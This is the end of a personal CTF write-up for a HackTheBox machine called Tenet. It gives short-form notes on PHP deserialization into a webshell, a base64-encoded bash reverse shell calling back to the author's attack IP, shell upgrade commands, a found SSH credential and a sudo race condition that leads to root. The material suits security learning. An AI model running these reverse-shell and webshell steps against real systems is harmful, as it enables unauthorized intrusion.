 After a wild Saturday afternoon, we've managed to tackle PHP deserialization _and_ exploiting race conditions all in one post. I learned quite a bit from this box; even though I was chasing OSWE, I was pretty darn bad at PHP deserialization attacks. I think this box helped solidify and cemented my knowledge on the subject so that's a win in my book. The race condition - well that was _just plain cool_. I hope you've enjoyed this post, I learned quite a few neat tricks from it - as always, ~~make sure to like and subscribe~~ keep on keeping on and happy hacking!

\-sp1icer
  
    
      
## >> TL;DR FOR MY LAZY FRIENDS

These were my short-form notes while doing the box.

```
1. visit page on port 80, see rotas mention
2. find comment from neil about sator.php file
3. cewl wordlists against the tenet site
	1. `cewl -d 3 -w tenet_wl.txt http://tenet.htb/`
4. dir force on the IP, NOT the hostname
	1. `gobuster dir -u http://10.129.146.244/ -w tenet_wl.txt -t 30 -x php,html,txt,zip,bak`
	2. `gobuster dir -u http://10.129.146.244/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -t 30 -x php,html,txt,zip,bak`
5. find sator.php
6. find users.txt
7. using hint, guess that the file we're looking for is `sator.php.bak` at `http://10.129.146.244/sator.php.bak`
8. look at source code, see that we can do php object injection
9. set up attack_poc - just testing writing to a diff file
10. set up attack - do phpinfo
11. set up attack - do webshell
12. pentestmonkey -> revshell
	1. has issues with some chars in the URL, so base64 encode
	2. `echo 'bash -i  >& /dev/tcp/10.10.14.117/9001 0>&1' | base64`
	3. play with spaces to remove the extra `+` in the middle of the b64 output
13. `http://10.129.146.244/sp1icer.php?cmd=echo%20YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzkwMDEgMD4mMQo=|base64%20-d|bash`
14. shell as www-data
15. TTY upgrade (https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html)
	1. `python3 -c 'import pty;pty.spawn("/bin/bash");'`
	2. `stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'`
	3. `stty raw -echo; fg`
	4. `stty rows ROWS cols COLS`
	5. `export TERM=xterm-256color`
	6. `exec /bin/bash`
16. find creds in `/var/www/html/wordpress/wp-config.php`
17. ssh in as neil :: Opera2112
18. `sudo -l` to see the script
19. make a keypair: `ssh-keygen -t rsa -b 4096 -f root_inject`
20. Copy over private key
21. Make race condition script
22. execute watchstuff.sh, trigger the sudo command
23. `ssh -i root_inject root@localhost`
24. root.txt
```
